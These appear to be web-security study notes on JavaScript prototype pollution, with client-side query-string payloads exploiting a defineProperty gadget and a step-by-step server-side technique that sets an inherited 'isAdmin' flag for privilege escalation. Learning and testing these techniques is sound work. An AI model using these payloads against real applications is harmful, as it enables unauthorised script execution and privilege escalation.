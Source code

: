 The "config" Object is not defining the "value" descriptor for "transport_url" property, we can try to pollute the Object prototype with the "value" property containing a malicious payload.

>[!info]
>https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/defineProperty

To craft an exploit:

- `/?__proto__[value]=data:,alert(1);`
- `/?__proto__.value=data:,alert(1);`
# Server-Side Prototype Pollution - Priv Esc

Identify functionality on the application where JSON data is returned in a response that appears to represent your "User" Object. An example response:

```json
{
"username":"test",
"firstname":"test",
"isAdmin":false
}
```

Then, identify a prototype pollution source. In the request body, add a new property to the JSON with the name __proto__, containing an object with an arbitrary property. An example payload:

```json
"__proto__": {
	"foo":"bar"
}
```

If in the response you see the "foo" property added, without the "__proto__" property, this suggests that we may have polluted the Object's prototype and that the "foo" property has been inherited via prototype chain.

Identify a gadget. The "isAdmin" property would be something to target for privilege escalation. And then craft a payload with an example being:

```json
"__proto__": {
    "isAdmin":true
}
```

In the response, if you see the following it suggests that the "User" object did not have its own "isAdmin“ property, and instead inherited from the polluted prototype. An example response:

```json
{
"username":"test",
"firstname":"test",
"isAdmin":true
}
```
